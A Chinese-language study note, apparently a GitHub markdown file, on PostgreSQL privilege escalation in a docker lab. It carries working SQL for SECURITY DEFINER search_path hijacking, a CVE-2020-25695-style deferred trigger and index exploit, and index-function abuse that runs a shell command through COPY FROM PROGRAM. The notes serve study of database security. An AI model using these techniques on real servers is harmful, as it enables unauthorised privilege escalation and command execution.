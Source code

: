 # postgresql权限提升总结

## 参考文章：

https://www.cybertec-postgresql.com/en/abusing-security-definer-functions/

https://staaldraad.github.io/post/2020-12-15-cve-2020-25695-postgresql-privesc/

https://www.wiz.io/blog/hells-keychain-supply-chain-attack-in-ibm-cloud-databases-for-postgresql

## docker创建环境

```
docker pull postgres:10.0

docker run --name my_postgres -e POSTGRES_PASSWORD=123456 -d -p 5432:5432 postgres:10.0
```

### 信息收集涉及的语句

#### 用户组、用户

```
SELECT r.rolname AS role_name,
       CASE
           WHEN r.rolsuper THEN 'Superuser'
           WHEN r.rolcreaterole THEN 'Create role'
           WHEN r.rolcreatedb THEN 'Create DB'
           WHEN r.rolcanlogin THEN 'Can login'
           WHEN r.rolreplication THEN 'Replication'
           WHEN r.rolconnlimit!= -1 THEN 'Conn limit: ' || r.rolconnlimit
           WHEN r.rolpassword IS NOT NULL THEN 'Has password'
           WHEN r.rolvaliduntil IS NOT NULL THEN 'Valid until: ' || r.rolvaliduntil
           WHEN r.rolbypassrls THEN 'Bypass RLS'
           ELSE ''
       END AS attributes,
       ARRAY_AGG(rm.rolname) AS member_of
FROM pg_roles r
LEFT JOIN pg_auth_members m ON r.oid = m.roleid
LEFT JOIN pg_roles rm ON m.member = rm.oid
GROUP BY r.rolname, r.rolsuper, r.rolcreaterole, r.rolcreatedb, r.rolcanlogin, r.rolreplication, r.rolconnlimit, r.rolpassword, r.rolvaliduntil, r.rolbypassrls
ORDER BY r.rolname;
```

#### 函数

查看public下的函数

```
SELECT proname AS function_name,
       proargtypes AS argument_data_types,
       prorettype AS result_data_type,
       proisagg AS is_aggregate,
       proiswindow AS is_window_function
FROM pg_proc
WHERE pronamespace = (SELECT oid FROM pg_namespace WHERE nspname = 'public');
```

查看函数代码

```
SELECT pg_get_functiondef('public.sum'::regproc);
```

```
SELECT prosrc
FROM pg_proc
WHERE proname = 'sum';
```

## 高权限自定义函数问题

创建危险函数

高权限用户运行

```
CREATE FUNCTION public.harmless(integer) RETURNS integer
   LANGUAGE sql SECURITY DEFINER AS
'SELECT $1 + 1';
```

SECURITY DEFINER代表运行函数时会使用创建函数的用户的权限


低权限运行

```
CREATE FUNCTION public.sum(integer, integer) RETURNS integer
   LANGUAGE sql AS
'INSERT INTO public.t1 VALUES (current_user); SELECT $1 OPERATOR(pg_catalog.+) $2';

CREATE OPERATOR public.+ (
   PROCEDURE = public.sum,
   LEFTARG = integer,
   RIGHTARG = integer
);

SET search_path = public,pg_catalog;

SELECT public.harmless(41);
```

search_path的意思是 先去public寻找函数harmless函数

运行harmless时是高权限账号 导致INSERT INTO public.t1 VALUES (current_user);插入的是高权限账号

## 触发器漏洞

整体流程

高权限运行索引-调用sfunc（低权限）-插入t0（低权限）-调用触发器-调用strig-调用snfunc（高权限）

使用

autovacuum_vacuum_threshold、autovacuum_analyze_threshold完成自动化

```
CREATE TABLE t0 (s varchar);

CREATE TABLE blah (a int, b int);
INSERT INTO blah VALUES (1,1); -- 必须要插入数据


CREATE FUNCTION sfunc(integer) 
  RETURNS integer
  LANGUAGE sql IMMUTABLE AS
  'SELECT $1';

CREATE INDEX indy ON blah (sfunc(a));

/*
使用替换的函数绕过IMMUTABLE，IMMUTABLE的意思是同样的参数只运行一次 后面传入参数一样的情况下都不再运行
*/

CREATE OR REPLACE FUNCTION sfunc(integer) RETURNS integer
   LANGUAGE sql 
   SECURITY INVOKER AS
'INSERT INTO public.t0 VALUES (current_user); SELECT $1';


CREATE TABLE t1 (s varchar);

-- create a function for inserting current user into another table

CREATE OR REPLACE FUNCTION snfunc(integer) RETURNS integer
   LANGUAGE sql 
   SECURITY INVOKER AS
'INSERT INTO public.t1 VALUES (current_user); SELECT $1';

-- create a trigger function which will call the second function for inserting current user into table t1
CREATE OR REPLACE FUNCTION strig() RETURNS trigger 
  AS $e$ BEGIN 
    PERFORM snfunc(1000); RETURN NEW; 
  END $e$ 
LANGUAGE plpgsql;

/* create a CONSTRAINT TRIGGER, which is deferred
 deferred causes it to trigger on commit, by which time the user has been switched back to the
 invoking user, rather than the owner
*/
CREATE CONSTRAINT TRIGGER def
    AFTER INSERT ON t0
    INITIALLY DEFERRED 
    FOR EACH ROW
  EXECUTE PROCEDURE strig();

ALTER TABLE blah SET (autovacuum_vacuum_threshold = 1);
ALTER TABLE blah SET (autovacuum_analyze_threshold = 1);
```

## SQL注入 高权限创建的函数

高权限创建的函数

![QQ_1732160674745](https://github.com/user-attachments/assets/8cf643e5-35ed-4f6e-9856-aad0b3d5c054)

低权限执行

![QQ_1732160720976](https://github.com/user-attachments/assets/35974216-ded7-4977-a72d-54795fb5a617)

实际是高权限执行的是

```
INSERT INTO public.test3(data) VALUES(current_user);
```

## postgresql用户组

可以将表的owner给用户组

创建一个索引函数

然后执行刷新 触发索引

用户组权限执行索引函数

查看自己所在的用户组

```
CREATE TABLE temp_table (data text); 
CREATE TABLE shell_commands_results (data text); 
 
INSERT INTO temp_table VALUES ('dummy content'); 
 
/* PostgreSQL does not allow creating a VOLATILE index function, so first we create IMMUTABLE index function */ 
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text 
  LANGUAGE sql IMMUTABLE AS 'select ''nothing'';'; 
 
CREATE INDEX index_malicious ON public.temp_table (suid_function(data));

/*
自己要在cloudsqladmin这个role里面
*/
 
ALTER TABLE temp_table OWNER TO cloudsqladmin;
 
/* Replace the function with VOLATILE index function to bypass the PostgreSQL restriction */ 
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text 
  LANGUAGE sql VOLATILE AS 'COPY public.shell_commands_results (data) FROM PROGRAM ''/usr/bin/id''; select ''test'';'; 
 
ANALYZE public.temp_table; 

```

## grant权限提权

直接创建一个有权限的用户

pg_read_server_files
pg_write_server_files
pg_execute_server_program

```
CREATE USER james CREATEDB IN GROUP 
  pg_read_server_files,
  pg_write_server_files,
  pg_execute_server_program ROLE postgres;
```

